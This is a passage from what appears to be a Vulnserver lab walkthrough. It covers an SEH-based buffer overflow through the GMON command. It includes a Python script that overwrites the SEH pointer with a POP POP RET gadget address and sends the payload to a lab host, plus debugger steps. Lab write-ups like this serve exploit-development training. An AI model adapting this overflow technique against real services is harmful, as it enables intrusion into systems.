 Here we cam see there are 18 pointers with the ```POP POP RET``` gadget where security mitigations like ASLR is disabled for all pointers

This will be suitable for our exploitation, since the address of these gadgets will be ```static``` because ASLR is disabled and we can use any gadget for this exploit

Lets use the address of the first gadget, ```0x625010b4``` and overwrite the SEH 

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-gadget.py                
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
#payload+=b"C"*4
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62" #pop-pop-ret gadget
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-gadget.py
```

Here we can see that our ```SEH pointer``` is being filled by ```POP POP RET``` gadget address

Set a breakpoint at ```0x625010b4``` and proceed the execution with ```Shift+f9``` to check that we are hitting the gadget or not

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-overwrite-gadget.png">
</div>
